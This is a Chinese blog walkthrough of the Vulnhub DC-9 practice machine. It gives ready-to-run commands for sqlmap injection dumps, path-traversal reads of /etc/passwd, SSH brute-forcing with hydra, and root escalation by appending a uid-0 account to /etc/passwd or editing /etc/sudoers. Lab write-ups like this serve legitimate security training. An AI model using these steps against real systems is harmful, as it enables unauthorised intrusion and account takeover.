 ```yaml
---
layout: mypost
title: Vulnhub靶机DC9渗透
categories: [靶机]
---
```


靶机下载地址：[DC9](https://www.vulnhub.com/entry/dc-9,412/)

Kali Linux 地址：192.168.43.110

![](https://z3.ax1x.com/2021/04/30/gAkSfA.png)

DC9 地址：192.168.43.128

根据下面爆出的多密码，增加 -O -sA 探测

![](https://z3.ax1x.com/2021/04/30/gAkETg.png)

很可能是使用了 knockd 保护了 ssh 端口

访问 web 页面

![](https://z3.ax1x.com/2021/04/30/gAkZkQ.png)

![](https://z3.ax1x.com/2021/04/30/gAkeYj.png)

![](https://z3.ax1x.com/2021/04/30/gAkupn.png)

居然看见川宝，作者恶趣味哈哈哈

![](https://z3.ax1x.com/2021/04/30/gAkKlq.png)

没有回显，盲猜一个 post sql 注入

![](https://z3.ax1x.com/2021/04/30/gAk30U.png)

确认

爆库

```bash
sqlmap -u http://192.168.43.128/results.php --dbs --data "search=1" --batch  
```

![](https://z3.ax1x.com/2021/04/30/gAkth9.png)

爆 Staff 的表

```bash
sqlmap -u http://192.168.43.128/results.php --dbs --data "search=1" -D 'Staff' --tables --batch
```

![](https://z3.ax1x.com/2021/04/30/gAka11.png)

爆  Users 的字段

```bash
sqlmap -u http://192.168.43.128/results.php --dbs --data "search=1" -D 'Staff' -T 'Users' --columns --batch
```

![](https://z3.ax1x.com/2021/04/30/gAkD0O.png)

爆 Username、Password 的值

```bash
sqlmap -u http://192.168.43.128/results.php --dbs --data "search=1" -D 'Staff' -T 'Users' -C 'Username,Password' --dump --batch
```

![](https://z3.ax1x.com/2021/04/30/gAkr7D.png)

得到 admin 的密码 856f5de590ef37314e7c3bdf6f8a66dc

去掉 --batch 参数，sqlmap 默认字典破解 hash

![](https://z3.ax1x.com/2021/04/30/gAk29A.png)

解密得到 transorbital1

![](https://z3.ax1x.com/2021/04/30/gAkWct.png)

footer 处 File does not exist 很显眼，疑似文件包含

```url
http://192.168.43.128/welcome.php?file=../../../../../../../etc/passwd
```

![](https://z3.ax1x.com/2021/04/30/gAk4nf.png)

确认

看看 knockd 配置

```url
http://192.168.43.128/manage.php?file=../../../../etc/knockd.conf
```

![](https://z3.ax1x.com/2021/04/30/gAkTAg.png)

安装 knockd 工具，使用序列号 knock 靶机

```bash
sudo apt-get install knockd 
knock 192.168.43.128 7469 8475 9842 
```

![](https://z3.ax1x.com/2021/04/30/gAkq9s.png)

打开 ssh 端口

爆 users 的表

```bash
sqlmap -u http://192.168.43.128/results.php --dbs --data "search=1" -D 'users' --tables --batch
```

![](https://z3.ax1x.com/2021/04/30/gAkL3n.png)

爆 UserDetails 的字段

```bash
sqlmap -u http://192.168.43.128/results.php --dbs --data "search=1" -D 'users' -T 'UserDetails' --columns --batch
```

![](https://z3.ax1x.com/2021/04/30/gAkOcq.png)

爆 username、password 的值

```bash
sqlmap -u http://192.168.43.128/results.php --dbs --data "search=1" -D 'users' -T 'UserDetails' -C 'username,password' --dump --batch
```

![](https://z3.ax1x.com/2021/04/30/gAkvuV.png)

写入字典，上 hydra 爆破

```bash
hydra -L user.txt -P pass.txt ssh://192.168.43.128
```

![](https://z3.ax1x.com/2021/04/30/gAkxBT.png)

得到 handlerb 的密码 UrAG0D!

得到 joeyt 的密码 Passw0rd

得到 janitor 的密码 Ilovepeepee

看了一圈只有 janitor 权限比较特殊

![](https://z3.ax1x.com/2021/04/30/gAkzHU.png)

![](https://z3.ax1x.com/2021/04/30/gAA9N4.png)

新密码写入字典梅开二度

![](https://z3.ax1x.com/2021/04/30/gAAiC9.png)

得到 fredf 的密码 B4-Tru3-001

ls -la 、find、echo $path、一圈下来还是 sudo -l 有所发现

![](https://z3.ax1x.com/2021/04/30/gAAkg1.png)

看看 test 文件

![](https://z3.ax1x.com/2021/04/30/gAAAjx.png)

![](https://z3.ax1x.com/2021/04/30/gAAZDK.png)

目标找 python 脚本

```bash
find / -name test.py -print 2>/dev/null
```

![](https://z3.ax1x.com/2021/04/30/gAAnED.png)

很明显第一条就是目标

![](https://z3.ax1x.com/2021/04/30/gAAK4H.png)

通过这个程序可以以 root 权限合并文件内容，将用户写入 /etc/passwd

可用 perl 

```bash
perl -le 'print crypt("seeyou","salt")'
saTJzXLNF8mC
echo "Stan:saTJzXLNF8mC.:0:0:User_like_root:/root:/bin/bash" >> /tmp/passwd
sudo ./test /tmp/passwd /etc/passwd
su Stan
see you
```

> 用户名：密码hash：uid：gid：说明：家目录：登陆后使用的shell

![](https://z3.ax1x.com/2021/04/30/gAAQCd.png)

Pwned！

还可以用 openssl

```bash
openssl passwd -1 -salt Stan seeyou
$1$Stan$zBGFIWmMFhWMbK24LpSWR0
echo "Stan:$1$Stan$zBGFIWmMFhWMbK24LpSWR0:0:0:root:/bin/bash">> /tmp/Stan
sudo ./test /tmp/Stan /etc/passwd
su Stan
```

或者在 /tmp 下创建 shell.txt，写入 fredf  ALL=(ALL:ALL) ALL

```bash
sudo ./opt/devstuff/dist/test/test shell.txt /etc/sudoers
sudo su
```

